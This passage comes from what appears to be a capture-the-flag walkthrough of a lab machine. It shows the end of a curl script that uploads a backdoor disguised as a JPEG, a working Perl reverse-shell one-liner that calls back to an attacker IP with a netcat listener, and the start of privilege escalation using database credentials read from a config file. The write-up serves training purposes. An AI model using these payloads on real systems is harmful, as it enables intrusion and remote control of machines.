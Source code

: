 ```bash
     -H "Expect:" \
     -F "image=@${FILE};type=image/jpeg;filename=${FILE}.jpg" \
     -F "submit=Upload+Image" \
     http://${HOST}/upload.php \
| head -1 | sed 's/<.*>//'

echo "Backdoor is at http://${HOST}/images/uploads/${FILE}.jpg?0=id"

# clean up
rm -f $COOKIE
```

Let's give it a shot.

{% include image.html image_alt="bcfcac1f.png" image_src="/c8a031b2-e96f-4055-bc28-99109f5c14ad/bcfcac1f.png" %}

Over at the browser we should get the following.

{% include image.html image_alt="1e18b190.png" image_src="/c8a031b2-e96f-4055-bc28-99109f5c14ad/1e18b190.png" %}

## Low-Privilege Shell

With the backdoor open, we can finally get the coveted shell or foothold into the machine. My goto reverse shell is a Perl one-liner.

```
perl -e 'use Socket;$i="10.10.16.125";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

It's best to `urlencode` the above for best results. On my attacking machine, a `netcat` listener is waiting for the reverse shell.

{% include image.html image_alt="922b868e.png" image_src="/c8a031b2-e96f-4055-bc28-99109f5c14ad/922b868e.png" %}

:heart_eyes:

## Privilege Escalation

During enumeration of the `www-data` account, I notice that there's only one account in the machine, `theseus`. I also noted the presence of `db.php5` in `/var/www/Magic`. In the file lies the password to log in to the MySQL database service, which is listening at `3306/tcp` on the loopback interface.

{% include image.html image_alt="60d04bca.png" image_src="/c8a031b2-e96f-4055-bc28-99109f5c14ad/60d04bca.png" %}

One small problem though—there's no `mysql` in the machine!

### Port Forwarding with `socat`

